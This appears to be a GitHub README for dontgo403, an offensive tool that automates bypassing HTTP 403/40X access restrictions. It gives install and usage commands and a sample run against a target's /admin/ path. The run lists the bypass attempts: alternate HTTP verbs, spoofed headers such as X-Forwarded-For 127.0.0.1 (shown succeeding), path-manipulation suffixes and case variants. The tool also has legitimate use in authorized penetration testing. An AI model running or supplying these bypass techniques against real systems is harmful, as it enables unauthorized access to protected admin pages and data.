 <p align="center">
<img src="https://i.imgur.com/0vLHCHd.png" width="600" height="100" >
</p>

[![contributions welcome](https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat)](https://github.com/dwyl/esta/issues)

dontgo403 is a tool to bypass 40X errors.

### Installation
```bash
git clone https://github.com/devploit/dontgo403; cd dontgo403; go get; go build
```

### Customization
If you want to edit or add new bypasses, you can add it directly to the specific file in [payloads](https://github.com/devploit/dontgo403/tree/main/payloads) folder and the tool will use it.


### Options
```bash
./dontgo403 -h

Command line application that automates different attempts to bypass 40X codes

Usage:
  dontgo403 [flags]

Flags:
  -h, --help               help for dontgo403
  -p, --proxy string       Proxy URL. For example: http://127.0.0.1:8080
  -u, --uri string         Target URL
  -a, --useragent string   Set the User-Agent string (default 'dontgo403/0.2')
```


### Example of usage
```sh
./dontgo403 -p http://127.0.0.1:8080 -u https://server.com/admin/

[*] USING PROXY: http://127.0.0.1:8080

[+] HTTP METHODS
PATCH: 404
POST: 403
MOVE: 404
OPTIONS: 404
GET: 403
HEAD: 404
TRACE: 405
PUT: 404
COPY: 404
LABEL: 404
DELETE: 404
CONNECT: 404

[+] VERB TAMPERING
Forwarded-For-Ip 127.0.0.1: 403
True-Client-IP 127.0.0.1: 403
X-HTTP-Method-Override PUT: 403
X-Host 127.0.0.1: 403
X-Forwarded-For localhost: 403
X-Rewrite-URL /admin: 403
X-Forwarded 127.0.0.1: 403
X-Forwarded-For-Original localhost: 403
X-Forwarded-Server localhost: 403
Forwarded-For 127.0.0.1: 403
X-Forwarded-For 127.0.0.1: 200 <-------------------- 200, OK
X-Forwarded-Host localhost: 403
X-Remote-Addr localhost: 403
X-Override-URL /admin: 403
X-Remote-Addr 127.0.0.1: 403
X-HTTP-Host-Override 127.0.0.1: 403
X-Originating-IP 127.0.0.1: 403
Forwarded 127.0.0.1: 403
X-Forwarded localhost: 403
X-Original-URL /admin: 403
X-Custom-IP-Authorization 127.0.0.1: 403
X-Remote-IP 127.0.0.1: 403
X-Forwarded-Server 127.0.0.1: 403
X-Forward 127.0.0.1: 403
Client-IP 127.0.0.1: 403
X-Real-IP 127.0.0.1: 403
X-Host localhost: 403
X-Forward localhost: 403
X-Forwarded-By 127.0.0.1: 403
Referer /admin: 403
X-Forwarded-For-Original 127.0.0.1: 403
X-Forward-For 127.0.0.1: 403
X-Forwarded-Host 127.0.0.1: 403
X-Client-IP 127.0.0.1: 403
Forwarded-For localhost: 403
Forwarded localhost: 403
X-Forwarded-By localhost: 403

[+] CUSTOM PATHS
End path ??: 403
End path /: 404
End path /.: 404
End path ..\;/: 404
End path //: 404
End path ?: 403
Mid path ./: 404
Mid path %2e/: 404
Mid path .\;/: 404
Mid path ;foo=bar/: 404

[+] CAPITALIZATION
https://server.com/Admin/: 403
https://server.com/aDmin/: 403
https://server.com/adMin/: 403
https://server.com/admIn/: 403
https://server.com/admiN/: 403
```

### Contact
[Twitter](https://www.twitter.com/devploit), [Telegram](https://t.me/devploit)